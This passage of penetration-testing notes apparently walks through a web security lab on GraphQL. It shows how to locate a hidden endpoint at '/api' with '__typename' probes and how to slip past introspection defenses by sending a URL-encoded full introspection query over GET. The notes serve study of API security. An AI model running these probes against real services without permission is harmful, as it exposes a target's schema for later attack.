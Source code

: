 If this doesn't work:
- try running the probe over an alternative request method
	- as introspection may only be disabled over POST
	  
- Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.

The example below shows an introspection probe sent via GET, 
with URL-encoded parameters.
```
# Introspection probe as GET request
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

### Finding a hidden GraphQL endpoint
**Find the hidden GraphQL endpoint**
1. In Repeater, send requests to some common GraphQL endpoint suffixes and inspect the results.
    
2. Note that when you send a GET request to `/api` the response contains a "Query not present" error. 
	1. This hints that there may be a GraphQL endpoint responding to GET requests at this location.
    
3. Amend the request to contain a universal query. 
	1. Note that, because the endpoint is responding to GET requests, you need to send the query as a URL parameter.
	2. For example: `/api?query=query{__typename}`.
    
4. Notice that the response confirms that this is a GraphQL endpoint:
```
{
  "data": {
    "__typename": "query"
  }
}
```

**Overcome the introspection defenses**
1. Send a new request with a URL-encoded introspection query as a query parameter
	1. To do this, right-click the request and select **GraphQL > Set introspection query**:
```
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```
